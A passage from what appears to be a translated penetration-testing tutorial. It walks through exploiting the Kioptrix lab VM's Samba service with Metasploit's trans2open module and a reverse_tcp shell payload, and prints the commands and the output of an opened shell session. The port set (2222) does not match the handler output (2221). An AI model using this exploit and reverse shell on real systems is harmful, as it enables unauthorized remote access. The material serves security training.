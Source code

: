 ```
msf > show payloads 

```

![Using Metasploit to exploit Kioptrix](img/7744_04_14.jpg)

`show payloads`命令提供可用于此特定攻击的所有兼容有效载荷的列表。我们将在本例中使用 `reverse_tcp`。这种有效载荷类型很小，通常很有效，尽管它没有 MeterMeter 提供的全部选项。

```
> set payload linux/x86/shell/reverse_tcp 

```

我们还必须设置 `LHOST`和 `LPORT`。

```
> set LHOST 192.168.75.12 

```

这是将在其上设置侦听器的本地主机。

```
> set LPORT 2222 

```

这是我们要监听的端口。

现在，这已经不存在了，我们可以继续利用：

```
> exploit 

```

如果一切按计划进行，您将收到以下确认和一个开放会话，该会话与本章前面提供给我们的手动编译的漏洞连接非常相似。

```
msf exploit(trans2open) > exploit 

```

```
[*] Started reverse handler on 192.168.75.12:2221
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.75.14
[*] Command shell session 2 opened (192.168.75.12:2221 -> 192.168.75.14:32802) at 2011-11-16 23:22:06 -0500

```
